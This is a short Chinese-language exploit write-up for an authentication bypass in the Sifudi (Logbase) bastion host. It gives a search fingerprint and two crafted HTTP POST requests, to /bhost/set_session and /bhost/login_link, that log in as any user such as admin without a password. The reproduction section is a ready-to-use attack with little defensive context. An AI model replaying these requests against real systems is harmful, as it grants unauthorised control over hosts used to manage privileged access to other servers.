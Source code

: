 # 思福迪堡垒机 任意用户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

```
思福迪堡垒机
```

## 网络测绘

```
"Logbase运维安全管理系统"
```

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```plain
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```



获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**



带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```plain
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```



利用后即可登录后台

![](./images/202202101953637.png)